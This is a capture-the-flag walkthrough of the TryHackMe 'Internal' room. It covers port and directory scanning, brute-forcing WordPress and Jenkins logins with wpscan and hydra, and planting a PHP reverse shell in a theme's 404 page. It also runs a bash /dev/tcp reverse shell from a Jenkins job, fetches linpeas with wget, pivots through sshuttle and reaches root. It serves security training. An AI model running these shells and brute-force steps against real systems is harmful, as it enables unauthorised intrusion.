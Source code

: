 # Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (30) (2) (1).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (8) (1) (3).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

TWENTY SEVENTEEN theme had a writable pages so I modified the 404 page with a reverse shell and then navigated to a page that does not exist.

<figure><img src="../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

Just added the revshell.php code mentioned earlier.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```

**Browser**

A page that doesn't exist to trigger the reverse shell.

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```

<figure><img src="../../.gitbook/assets/image (27) (1) (2).png" alt=""><figcaption></figcaption></figure>

Get full TTY shell

<pre><code><strong>python -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>

### LinPeas

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://10.10.120.18:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

Linpeas was able to find two sets of credentials. phpmyadmin credentials worked.

```
phpmyadmin
Username: phpmyadmin                                                                                                                
Password: B2Ud4fEOZmVq

note 
Username: aubreanna
Password: bubb13guM!@#123
```

The note for Bill

```
cat /opt/wp-save.txt 
```

<figure><img src="../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

Able to ssh in with the credentials. There is a file that says that Jenkins is running and we can confirm that is is running with netstat as well.

```
ssh aubreanna@10.10.46.54
Password: bubb13guM!@#123
cat jenkins.txt
netstat -tuan
```

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Pivot

From Kali I am now able to reach the Jenkins server

**Option #1**

For the rest of guide I used this option.

```
apt install sshuttle
sshuttle -r aubreanna@10.10.46.54 127.0.0.1/24
Password: bubb13guM!@#123
```

<figure><img src="../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

**Option #2**

If I followed this way jenkins would be redirected to port 4444 on kali.

```
ssh -L 4444:172.17.0.2:8080 aubreanna@10.10.46.54
Password: bubb13guM!@#123
```

### Bruteforce

After checking for some time I couldn't find any files with credentials that worked and the jenkins server is being ran on docker and I had no access to anything for that  so I resorted to using hydra. What I did was tried logging in with fake credentials than seeing the request and copying the info I needed to start bruteforcing.

```
File: /j_acegi_security_check
Request Body: j_username=test&j_password=pass&from=%2F&Submit=Sign+in
Failed login message: Invalid username or password
```

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

The default hydra was giving false positives and not getting the correct credentials so I downloaded from gitlab and ran the bruteforcing again.

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P  /usr/share/wordlists/rockyou.txt
```

Credentials were found.

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: admin
Password: spongebob
```

### Jenkins Web

<figure><img src="../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

Just added a reverse shell to the job and ran it.

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Setup a listener

```
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (12) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

There was a note under opt for Aubreanna that had the credentials for root.

<figure><img src="../../.gitbook/assets/image (15) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: root
Password: tr0ub13guM!@#123
```

Tried logging in with the credentials with ssh and it worked.

<pre><code>ssh root@10.10.56.152
<strong>Password: tr0ub13guM!@#123
</strong></code></pre>

